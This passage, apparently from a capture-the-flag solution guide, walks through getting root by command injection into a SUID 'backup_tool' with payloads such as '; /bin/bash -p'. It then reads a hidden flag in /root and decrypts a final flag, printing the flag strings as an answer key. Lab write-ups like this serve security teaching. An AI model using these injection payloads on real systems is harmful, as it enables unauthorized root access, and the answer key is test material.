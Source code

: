 ```bash
backup_tool "; /bin/bash -p"
```

**Important:** The `-p` flag tells bash to run in privileged mode, keeping the SUID permissions!

Alternative methods:
```bash
backup_tool "; sh -p"
backup_tool "x; bash -p"
```

### Step 6: Verify Root Access
```bash
whoami          # Should show 'root'
id              # Should show uid=0(root)
```

### Step 7: Find and Read Flag 4
Now that you have a root shell, explore for hidden files:

```bash
ls -la /root/   # List ALL files including hidden ones
```

You'll see `.flag4.txt` (hidden file). Read it:

```bash
cat /root/.flag4.txt
```

You'll see: `CTF{pr1v1l3g3_3sc4l4t10n_pwn3d}`

---

## FLAG 5: Final Flag (Cryptography)
**Location:** `/root/artemis_shutdown.enc` (encrypted)
**Flag:** `CTF{4rt3m1s_shutd0wn_c0mpl3t3}`

### Prerequisites:
Must be root (see FLAG 4)

### Steps:
1. As root (you should already have done `ls -la /root` in previous step), you'll see:
   - `flag4.txt` (hint file)
   - `.flag4.txt` (hidden - the real FLAG 4)
   - `artemis_shutdown.enc` (encrypted file)
   - `decrypt_tool.py` (decryption script)

2. Run the decryption tool:
   ```bash
   python3 /root/decrypt_tool.py
   ```

4. The script will decrypt and display the final flag:
   ```
   CTF{4rt3m1s_shutd0wn_c0mpl3t3}
   ```

---